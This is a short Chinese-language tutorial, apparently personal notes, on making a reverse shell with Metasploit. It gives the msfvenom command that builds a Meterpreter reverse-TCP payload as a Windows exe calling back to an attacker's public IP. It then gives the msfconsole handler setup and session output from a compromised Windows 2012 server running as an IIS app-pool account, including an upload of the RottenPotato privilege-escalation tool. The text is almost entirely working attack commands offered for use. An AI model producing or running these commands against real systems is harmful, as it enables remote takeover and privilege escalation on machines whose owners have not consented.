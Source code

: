 # msf制作shell


# 1 .制作反弹shell-exe文件

执行命令

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=2x.94.50.153 LPORT=4433 -f exe -o 4433.exe`

> `LHOST`为公网IP

> `LPORT`为反弹端口

> `4433.exe`为生成文件

# 2.控制端启动msfconsole，获取监听

运行命令

```
msfconsle
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 2xx.94.50.153
msf5 exploit(multi/handler) > set LPORT 4433
msf5 exploit(multi/handler) > run


```

# 3.反弹成功

```
meterpreter > sysinfo
Computer        : WIN-UKKED2CCSHJ
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows

meterpreter > getuid
Server username: IIS APPPOOL\padt002

#上传文件
meterpreter > upload /root/RottenPotato/rottenpotato.exe
[*] uploading  : /root/RottenPotato/rottenpotato.exe -> rottenpotato.exe
[*] Uploaded 664.00 KiB of 664.00 KiB (100.0%): /root/RottenPotato/rottenpotato.exe -> rottenpotato.exe
[*] uploaded   : /root/RottenPotato/rottenpotato.exe -> rottenpotato.exe

```

